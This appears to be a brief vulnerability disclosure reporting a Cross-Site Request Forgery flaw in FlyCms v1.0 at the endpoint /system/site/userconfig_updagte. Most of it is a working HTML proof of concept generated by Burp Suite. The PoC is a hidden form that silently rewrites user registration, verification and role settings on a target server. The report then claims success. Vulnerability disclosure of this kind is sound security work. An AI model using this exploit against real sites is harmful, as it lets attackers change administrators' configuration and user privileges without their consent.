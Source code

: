 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/site/userconfig_updagte 

![1](https://github.com/zouyang0714/cms/assets/154772814/a1054d30-eb23-4002-81f9-693f77e0d6a0)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/site/userconfig_updagte" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="user_reg" value="0" />
      <input type="hidden" name="user_reg_verify" value="1" />
      <input type="hidden" name="user_activation_role" value="5" />
      <input type="hidden" name="user_role" value="2" />
      <input type="hidden" name="user_question_verify" value="1" />
      <input type="hidden" name="user_answer_verify" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![2](https://github.com/zouyang0714/cms/assets/154772814/63212daa-da4c-43be-bf8d-04236809ee88)


Successed

![3](https://github.com/zouyang0714/cms/assets/154772814/1e81b5a2-eb76-4751-af29-7d0f6e9c57e9)

